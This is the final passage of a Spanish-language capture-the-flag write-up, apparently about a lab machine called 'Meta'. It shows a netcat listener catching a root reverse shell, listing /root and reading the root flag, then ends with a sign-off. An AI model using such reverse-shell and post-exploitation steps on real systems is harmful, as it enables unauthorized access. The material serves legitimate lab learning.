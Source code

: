 ```console
p3ntest1ng:~$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.15.113] from (UNKNOWN) [10.10.11.140] 35808
root@meta:/home/thomas# whoami
whoami
root
root@meta:/home/thomas# 
```

En este punto ya tenemos el sistema completamente a nuestra merced, podríamos realizar el tratamiento de la shell pero en este caso yo no lo voy a hacer.

```console
root@meta:/home/thomas# cd /root; ls -la
cd /root; ls -la
total 28
drwx------  4 root root 4096 Jan 17 07:52 .
drwxr-xr-x 18 root root 4096 Aug 29 15:38 ..
lrwxrwxrwx  1 root root    9 Aug 29 16:00 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  4 root root 4096 Jan  4 10:10 .config
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  2 root root 4096 Aug 30 13:01 conf
-rwxr-----  1 root root   33 Jan 25 20:09 root.txt
root@meta:~# cat root.txt
cat root.txt
3b7ae86ee0a2f788e5db285c464bdcdf
root@meta:~#
```

### ¡Gracias por leer hasta el final!

#### Nos vemos en un próximo. ¡Feliz hacking! ☠